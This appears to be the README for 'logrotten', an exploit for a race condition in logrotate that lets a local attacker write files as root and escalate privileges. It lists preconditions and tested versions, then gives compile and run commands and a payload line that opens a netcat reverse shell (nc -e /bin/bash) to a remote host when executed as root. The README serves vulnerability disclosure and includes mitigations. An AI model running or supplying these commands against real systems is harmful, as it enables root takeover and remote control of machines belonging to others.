 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with option that creates a 
    file ( like create, copy, compress, etc.) and the user is in control 
    of the logfile path, it is possible to abuse a race-condition to write 
    files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 11 (bullseye)
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0
  - logrotate 3.18.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit 

If "create"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```


## Known Problems
  - It was hard to win the race inside a docker container or on a lvm2-volume. This version of logrotten improves the reliability.

## Mitigation
  - make sure that logpath is owned by root
  - use option "su" in logrotate.cfg
  - use selinux or apparmor

## Author
  - Wolfgang Hotwagner

## References
  - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten
  - https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/
  - https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd

